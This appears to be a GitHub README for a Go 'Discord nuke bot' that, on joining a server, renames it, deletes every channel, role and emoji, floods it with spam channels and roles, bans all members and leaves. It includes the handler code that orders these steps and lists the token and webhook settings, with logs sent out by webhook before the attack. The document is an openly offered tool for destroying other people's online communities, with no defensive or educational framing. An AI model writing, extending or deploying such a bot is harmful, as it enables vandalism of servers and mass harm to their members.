 <img src="https://media.discordapp.net/attachments/1109426745012142081/1183350870079971449/IMG_9567.png?ex=65880461&is=65758f61&hm=44475ba2ed4ff3a5e0a01e530660de151736d11b3038d632fbb672e66a0bd8cf&=&format=webp&quality=lossless&width=1202&height=657">

# Inferno-Discord-Bot
A powerful Discord nuke bot written on Go
<hr>

# .env file
There's many variables such as 

<pre>
{
    BOT_TOKEN: bot's token
    
    WEBHOOK_ID: Webhook's ID
    WEBHOOK_TOKEN: Webhook's Token
    AVATAR_URL: avatar url for webhook

    CHANNEL_NAME: name of the channel
    SERVER_NAME: name of the server
    ROLE_NAME: name of the role

    EMBED_TITLE: Embed's title
    EMBED_DESCRIPTION: Embed's description

}
</pre>
<p>/// All values are have string data type</p>

# Code Structure
All bot's functions are in cogs folder
<pre>
    main.go
    auto.go
    .env
    avatar.webp
    - cogs
      - channels.go
      - emoji.go
      - leave.go
      - members.go
      - rename.go
      - roles.go
      - webhooks.go
</pre>

# main.go & auto.go
<h3>main.go - launches bot and OnGuildCreate handler from auto.go</h3>
<pre>
    sess.AddHandler(onGuildCreate) - function onGuildCreate is located in auto.go file
</pre>
<hr>
<h3>auto.go - launches bot's functions from cogs folder if bot joined the guilld </h3>
<pre>
func onGuildCreate(s *discordgo.Session, event *discordgo.GuildCreate) {
  var wg sync.WaitGroup

	cogs.Logs(s, event)
	cogs.GuildRename(s, event)

	wg.Add(1)
	go func() {
		defer wg.Done()
		cogs.DeleteChannels(s, event)
	}()
	wg.Wait()

	for i := 0; i < 50; i++ {
		wg.Add(1)
		go func() {
			defer wg.Done()
			cogs.TextSpam(s, event, &wg)
		}()
	}
	wg.Wait()

	wg.Add(1)
	go func() {
		defer wg.Done()
		cogs.DeleteRoles(s, event)
	}()
	wg.Wait()

	for i := 0; i < 40; i++ {
		wg.Add(1)
		go func() {
			defer wg.Done()
			cogs.RolesSpam(s, event)
		}()
	}
	wg.Wait()

	cogs.EmojiDelete(s, event)
	cogs.MemberBan(s, event)
	cogs.BotLeave(s, event)
    }
</pre>
<hr>
# cogs folder
There's located all bot's functions.
<pre>
    channels.go: 2 functions (DeleteChannels, TextSpam)
    emoji.go: 1 function that deletes all emojis from the server
    leave.go: 1 function that leaves from the server
    members.go: 1 function that bans all members from the server
    rename.go 1 function that renames the server 
    roles.go: 2 functions that deletes and creates roles (DeleteRoles, RolesSpam)
    webhooks.go: 1 function that send logs before nuke bot starts other functions via webhook.
</pre>

